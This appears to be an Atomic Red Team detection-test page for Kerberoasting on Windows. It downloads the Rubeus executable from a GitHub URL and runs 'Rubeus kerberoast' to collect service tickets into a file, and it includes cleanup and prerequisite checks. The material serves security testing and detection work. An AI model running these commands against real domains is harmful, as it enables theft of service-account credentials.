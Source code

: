 **Supported Platforms:** Windows


**auto_generated_guid:** 14625569-6def-4497-99ac-8e7817105b55





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_folder | Local path of Rubeus executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads|
| local_executable | name of the rubeus executable | string | rubeus.exe|
| out_file | file where command results are stored | string | rubeus_output.txt|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|
| flags | command flags you would like to run (optional and blank by default) | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
klist purge
cmd.exe /c "#{local_folder}\#{local_executable}" kerberoast #{flags} /outfile:"#{local_folder}\#{out_file}"
```

#### Cleanup Commands:
```powershell
Remove-Item "#{local_folder}\#{out_file}" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```
##### Description: Rubeus must exist
##### Check Prereq Commands:
```powershell
if(Test-Path -Path "#{local_folder}\#{local_executable}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile "#{local_folder}\#{local_executable}"
```
